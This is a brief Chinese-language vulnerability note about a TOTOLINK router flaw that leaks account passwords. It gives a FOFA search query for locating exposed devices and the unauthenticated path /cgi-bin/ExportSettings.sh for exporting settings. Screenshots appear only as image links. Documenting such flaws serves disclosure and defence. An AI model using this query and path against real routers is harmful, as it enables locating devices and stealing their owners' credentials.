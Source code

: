 # TOTOLINK存在泄漏账号密码泄露漏洞

# 一、漏洞简介
TOTOLINK存在泄漏账号密码泄露漏洞

# 二、影响版本
+ TOTOLINK

# 三、资产测绘
+ fofa`"TOTOLINK"`
+ 特征

![1722616502911-6584fab6-2545-4c39-afba-b538b3d04fea.png](./img/un9vgxuKVLRXxw_9/1722616502911-6584fab6-2545-4c39-afba-b538b3d04fea-761611.png)

# 四、漏洞复现
```http
/cgi-bin/ExportSettings.sh
```

![1722616415949-91023cc8-2ab9-4181-9d4b-a413b02d7045.png](./img/un9vgxuKVLRXxw_9/1722616415949-91023cc8-2ab9-4181-9d4b-a413b02d7045-360549.png)



> 更新: 2024-08-12 17:15:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/dkxfq1s0ol3ebges>